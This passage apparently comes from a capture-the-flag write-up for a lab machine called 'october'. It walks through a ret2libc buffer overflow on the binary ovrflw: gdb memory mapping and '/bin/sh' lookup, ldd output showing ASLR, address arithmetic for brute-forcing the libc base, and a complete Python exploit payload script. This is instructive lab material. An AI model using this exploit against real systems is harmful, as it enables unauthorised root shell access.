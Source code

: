 ```none
        0xb75c7000 0xb75c8000     0x1000        0x0
        0xb75c8000 0xb7772000   0x1aa000        0x0 /lib/i386-linux-gnu/libc-2.19.so
        0xb7772000 0xb7774000     0x2000   0x1aa000 /lib/i386-linux-gnu/libc-2.19.so
        0xb7774000 0xb7775000     0x1000   0x1ac000 /lib/i386-linux-gnu/libc-2.19.so
        0xb7775000 0xb7778000     0x3000        0x0
        0xb777e000 0xb7780000     0x2000        0x0
        0xb7780000 0xb7782000     0x2000        0x0 [vvar]
        0xb7782000 0xb7784000     0x2000        0x0 [vdso]
        0xb7784000 0xb77a4000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.19.so
        0xb77a4000 0xb77a5000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.19.so
        0xb77a5000 0xb77a6000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.19.so
        0xbfa79000 0xbfa9a000    0x21000        0x0 [stack]
(gdb) find 0xb75c8000,0xb7772000,"/bin/sh"
0xb772abac
1 pattern found.
(gdb) x/s 0xb772abac
0xb772abac:     "/bin/sh"
```

At this point, we can remap the exact base address by checking where `/lib/i386-linux-gnu/libc.so.6` is located with the following:

```none
data@october:/dev/shm$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb773e000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7584000)
        /lib/ld-linux.so.2 (0x800eb000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb7754000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb759a000)
        /lib/ld-linux.so.2 (0x800dc000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb77cf000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7615000)
        /lib/ld-linux.so.2 (0x800f5000)
```

Notice how the base address of `/lib/i386-linux-gnu/libc.so.6` changes each time. This is because ASLR is enabled.
On 32-bit machines, the chance of guessing the base address is 1/4096 which can be brute-forced very quickly.
Therefore, the base address of `/lib/i386-linux-gnu/libc.so.6` can be guessed with enough attempts.
For this example, I will remap the absolute addresses of `exit()` and `system()` like the following:

```none
exit    = 0xb7584000+0x00033260 = 0xb75b7260
system  = 0xb7584000+0x00040310 = 0xb75c4310
/bin/sh = 0xb7584000+0x00162bac = 0xb76e6bac
```

I then updated `exploit.py` like the following:

```python
import struct
import sys

buf_len = 112
system_addr = struct.pack("<I", 0xb75c4310)
exit_ret_addr = struct.pack("<I", 0xb75b7260)
binsh_addr = struct.pack("<I", 0xb76e6bac)
buf = b"\x90" * buf_len
buf += system_addr + exit_ret_addr + binsh_addr

sys.stdout.buffer.write(buf)
```
